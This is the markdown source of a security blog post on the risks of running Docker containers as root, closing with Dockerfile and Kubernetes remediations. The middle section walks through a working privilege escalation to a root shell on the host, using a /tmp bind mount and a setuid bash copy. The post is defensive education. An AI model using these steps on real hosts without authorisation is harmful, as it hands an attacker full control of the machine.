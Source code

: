 ```yaml
---
title: "The False Sense of Security: Running Containers as root"
author: wonderchild
date: 2023-03-26 14:30:00 +0500
categories: [Containers]
tags: [Containers, Security]
image:
  path: /assets/img/posts/containers-as-root/preview.png
  alt: Image generated by Midjourney AI
---
```


---

Containers have revolutionized modern software development, enabling us to develop, build, package, and deploy software applications faster and more efficiently than ever before. The benefits of containerization are many, from easier deployment and scaling to improved resource utilization and portability. However, despite the advantages that containers offer, they are not immune to security risks.

In this post, let's discuss the risks of running containers as root and understand how root inside the container and on the host essentially mean one and the same thing.

## Insecure By Default
In her book [Container Security](https://www.oreilly.com/library/view/container-security/9781492056690/), Liz Rice described containers running as root as "the most insecure-by-default behavior in the container world", and despite this behavior being insecure, at the time of this writing, most if not all containers still run as root by default.

For instance, if we spin up an Ubuntu container using Docker and check the user ID, we can see that it's running as root:

```
$ docker run -it ubuntu /bin/bash
root@3de6e3805519:/# id
uid=0(root) gid=0(root) groups=0(root)
```
{: file="Shell" }

One might mistakenly assume like I myself had once believed, that root inside a container is completely isolated from the root on the host. However, that is not the case.

To confirm that root in the Ubuntu container is the same as the root on the host, let's run the `sleep` command inside the container:

```
root@3de6e3805519:/# sleep infinity
```
{: file="Shell" }

Now, let's open another terminal on the same host, and use the `ps` command to see that this process is running under root's user ID:

```
$ ps -fC sleep
UID          PID    PPID  C STIME TTY          TIME CMD
root        4434    4152  0 19:38 pts/0    00:00:00 sleep infinity
```
{: file="Shell" }

From the perspective of the host, the `sleep` process is owned by the root user, as seen above. This indicates that root inside the container is essentially the same as root on the host.

This leads us to the question: how can attackers take advantage of this?

## Leveraging Containers for Privilege Escalation

Assuming we already have initial access to the machine as a normal non-root user on the host, let's demonstrate how an attacker can use containers to escalate their privileges.

To begin, we'll run an Ubuntu container using Docker and bind-mount the host's `/tmp` volume inside the container:

```
$ docker run -v /tmp:/tmp -it ubuntu /bin/bash
root@2ea086531742:/#
```
{: file="Shell" }

With the container up and running, let's open another terminal on the host as non-root user and copy the user's `/bin/bash` file to the `/tmp` directory:

```
$ cp /bin/bash /tmp
```
{: file="Shell" }

Next, in the Ubuntu container, let's see who owns the `/tmp/bash` file:

```
root@2ea086531742:/# ls -l /tmp/bash 
-rwxr-xr-x 1 1000 1001 1234376 Mar 25 17:21 /tmp/bash
```
{: file="Shell" }

As we can see, the file is currently owned by the non-root user with UID `1000`.

Now, we'll use the `chown` command inside the container to change the ownership of the file to the root user:

```
root@2ea086531742:/# chown root:root /tmp/bash
root@2ea086531742:/# ls -l /tmp/bash
-rwxr-xr-x 1 root root 1234376 Mar 25 17:21 /tmp/bash
```
{: file="Shell" }

The file is now owned by root, so we'll use `chmod` to set the `setuid` bit on the file:

```
root@2ea086531742:/# chmod +s /tmp/bash
root@2ea086531742:/# ls -l /tmp/bash
-rwsr-sr-x 1 root root 1234376 Mar 25 17:21 /tmp/bash
```
{: file="Shell" }

Now that the `setuid` bit is set, we can go back to the terminal of the non-root user and execute the `/tmp/bash` file with the `-p` option to launch bash in privileged mode and maintain the privileges owned by the file's owner:

```
$ /tmp/bash -p
bash-5.1# whoami
root
```
{: file="Shell" }

So now, even though we ran the `/tmp/bash` file as a regular non-root user, we have become root on the host.

If you want to see this in action, I suggest giving HackTheBox's now-retired [GoodGames](https://app.hackthebox.com/machines/GoodGames) machine a try. A good friend of mine, ARZ101, has a nice [writeup](https://arz101.medium.com/hackthebox-goodgames-20358b06420c) on the machine.

With that said, there are numerous other techniques that attackers can use to escalate their privileges, such as [this](https://www.electricmonk.nl/log/2017/09/30/root-your-docker-host-in-10-seconds-for-fun-and-profit/) in the blog post from Ferry Boender, or the [one](https://medium.com/@mccode/processes-in-containers-should-not-run-as-root-2feae3f0df3b) by Marc Campbell. But, fortunately for us, it's possible to run containers as non-root users.

## Remediation

By running containers as non-root users, we can significantly reduce the attack surface and ultimately minimize the risk of a successful container escape as well as the damage that an attacker can do.

There are several ways to achieve running containers as non-root, but to keep this post short, I'll list down only two of them:

### Docker

If you're using Docker as your container runtime, the fix is as simple as adding the following two commands to your Dockerfile:

```
RUN groupadd --gid 65532 nonroot \
    && useradd --uid 65532 --gid 65532 -m nonroot
USER nonroot
```
{: file="Dockerfile" }

### Kubernetes

Alternatively, if you're working with Kubernetes, you can leverage the `securityContext` setting or `PodSecurityPolicy`. However, since the latter is deprecated, here's an example of how you can use the former to prevent privilege escalation:

```yaml
securityContext:
  allowPrivilegeEscalation: false
  capabilities:
    drop:
      - ALL
  runAsNonRoot: true
```
{: file="values.yaml" }

## Conclusion

To sum up, we've learned that root inside a container is equivalent to root on the host, which isn't problematic in itself, but pair this with a container escape vulnerability, and you risk handing over complete compromise of the host to an attacker.

To prevent this, it's crucial to follow the principle of least privilege and adopt security best practices. Without these measures, we'd just be a single misconfiguration away from allowing an attacker to gain full control.

---

Stay tuned for my next article, where I'll explain the ins and outs of rootless containers! In the meanwhile, feel free to connect with me on [LinkedIn](https://www.linkedin.com/in/saadjawayd/) or on [Twitter](https://twitter.com/vonderchild).